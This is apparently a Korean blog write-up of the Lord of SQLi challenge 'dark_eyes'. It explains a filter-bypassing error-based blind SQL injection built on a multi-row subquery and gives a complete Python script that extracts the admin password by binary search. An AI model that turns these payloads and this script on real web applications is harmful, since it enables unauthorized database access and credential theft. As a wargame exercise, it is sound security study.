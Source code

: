 

# [22] dark_eyes

## 문제
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FQZVKB%2FbtrnR2UVQMP%2FtzRVYHPoeR2N10uYesKs8k%2Fimg.png">

## 풀이

이번 문제에서는 col, if, case, when, sleep, benchmark를 필터링하고 있다.

<br>

전체적인 구조는 이전 문제와 크게 다르지 않은 Error Based Blind SQLi 문제이다.

* 이전 문제와는 달리 에러가 발생할 시 에러 메시지를 보여주지는 않지만 exit됨으로 인해 빈 화면이 출력되므로 그 자체로 에러 여부 판별이 가능하다.

<br>

이번 문제의 핵심은 if문이나 case문을 사용하지 않고 특정 조건을 충족하는 경우에 에러를 발생시켜주는 것에 있다.

<br>

이래저래 대체할 방법을 찾아봤지만... 방법은 딱 하나인 것 같았다.

**서브쿼리**를 이용하는 것이다.

<br>

사용할 페이로드의 예시는 다음과 같다.

```python
param=f"?pw=' || (SELECT 1 UNION SELECT 2 where id='admin' and length(pw)={num}) %23"
```

① **SELECT 1 UNION SELECT 2**

- 서브쿼리가 둘 이상의 row를 반환하지 못한다는 특성을 이용하여, 해당 요소가 실행될 시 에러가 발생하게끔 유도한다.

② **where id='admin' and length(pw)={num}**

- pw의 길이가 일치할 시 where절이 True가 되므로 ①번 요소가 실행되고, 그로 인한 에러가 발생하게 된다.

- 에러의 발생 유무를 판별하여 pw의 길이와 일치하는 num을 찾아낼 수 있다.

<br>

이후 완전한 pw를 찾는 방법도 동일한 로직을 사용한다.

또한 이전 문제들과 마찬가지로, 2진 탐색을 적용하여 검색 속도를 높인다.

 
<br>
 

**LoS 22번 Python 자동화 코드**이다.

```python
import requests

def send(param):
    url = "https://los.rubiya.kr/chall/dark_eyes_4e0c557b6751028de2e64d4d0020e02c.php"
    cookie = "dfksep8hnmequ6sm0qe1iu65pa"
    head = {"PHPSESSID":f"{cookie}"}
    my_url = url+param
    res = requests.get(my_url, cookies=head)
    return res.text

print("💘 LoS 21을 시작합니다")

for num in range(0,100):
    param=f"?pw=' || (SELECT 1 UNION SELECT 2 where id='admin' and length(pw)={num}) %23"
    if("query" not in send(param)):
        print(f"👏 pw의 길이는 {num}입니다!")
        break

ans=""

for len in range(1, num+1):
    start = 32
    end = 127
    while True:
        middle = round((start+end)/2)
        param=f"?pw=' || (SELECT 1 UNION SELECT 2 where id=\"admin\" and ascii(substr(pw,{len},1))>={middle}) %23"
        if("query" not in send(param)):
            param=f"?pw=' || (SELECT 1 UNION SELECT 2 where id=\"admin\" and ascii(substr(pw,{len},1))={middle}) %23"
            if("query" not in send(param)):
                print(f"{len}번째 문자 → {chr(middle)}")
                ans+=chr(middle)
                break
            else:
                start = middle
                continue
        else:
            end = middle
            continue

print(f"👏 pw의 정체는 [{ans}]입니다!")
```

<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FcDNwU8%2FbtrnLHEJjIe%2FQayaMUVXj93KSZTUwujn3K%2Fimg.png">


Blind 공격 결과, pw는 `5a2f5d3c` 임을 확인할 수 있다.

## 결과
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FobIoV%2FbtrnN22UR9z%2FWb6jsJDojQmhcK1tCizpUk%2Fimg.png">